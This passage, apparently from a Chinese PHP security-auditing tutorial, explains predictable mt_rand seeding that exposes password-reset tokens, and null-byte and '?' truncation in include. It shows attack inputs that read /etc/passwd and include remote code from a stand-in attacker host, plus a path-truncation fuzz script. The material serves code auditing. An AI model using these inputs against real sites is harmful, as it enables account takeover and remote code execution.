 当10634次时候我们得到了结果。

当PHP版本到了5.2.1后，通过修改算法修补了奇数和偶数的播种相等的问题，这样也导致了php5.2.0前后导致同一个播种后的mt_rand()的值不一样。比如：

> –code————————————————————————-
>  mt_srand(42);
> echo mt_rand();
> //php<=5.20 1387371436
> //php>5.20 1354439493
> ?>
> ——————————————————————————-

正是这个原因，也要求了我们的exp的运行环境：当目标>5.20时候，我们exp运行的环境也要是>5.20的版本，反过来也是一样。

从上面的测试及分析来看，php<5.26不管有没有定义播种，mt\_rand处理的数据都是不安全的。在web应用里很多都使用mt\_rand来处理随机的session，比如密码找回功能等等，这样的后果就是被攻击者恶意利用直接修改密码。

很多著名的程序都产生了类似的漏洞如wordpress、phpbb、punbb等等。（在后面我们将实际分析下国内著名的bbs程序Discuz!的mt_srand导致的漏洞）

+++++++++++++++++++++++++
漏洞审计策略
————————-
PHP版本要求：php4 php5<5.2.6
系统要求：无
审计策略：查找mt\_srand/mt\_rand
+++++++++++++++++++++++++

5.6 特殊字符

其实“特殊字符”也没有特定的标准定义，主要是在一些code hacking发挥着特殊重作用的一类字符。下面就举几个例子：

5.6.1 截断

其中最有名的数大家都熟悉的null字符截断。

5.6.1.1 include截断

> –code————————————————————————-
>  include $_GET[‘action’].”.php”;
> ?>
> ——————————————————————————-

提交“action=/etc/passwd”中的“”将截断后面的“.php”，但是除了“”还有没有其他的字符可以实现截断使用呢？肯定有人想到了远程包含的url里问号“?”的作用，通过提交“action=http://www.hacksite.com/evil-code.txt?”这里“?”实现了“伪截断”：），好象这个
看上去不是那么舒服那么我们简单写个代码fuzz一下：

> –code————————————————————————-
>  ////////////////////
> ////var5.php代码:
> ////include $_GET[‘action’].”.php”;
> ////print strlen(realpath(“./”))+strlen($_GET[‘action’]);
> ///////////////////
> ini\_set(‘max\_execution_time’, 0);
> $str=”;
> for($i=0;$i<50000;$i++)
> {
> $str=$str.”/”;
>
> $resp=file\_get\_contents(‘http://127.0.0.1/var/var5.php?action=1.txt’.$str);
> //1.txt里的代码为print ‘hi’;
> if (strpos($resp, ‘hi’) !== false){
> print $i;
> exit;
> }
> }
> ?>
> ——————————————————————————-
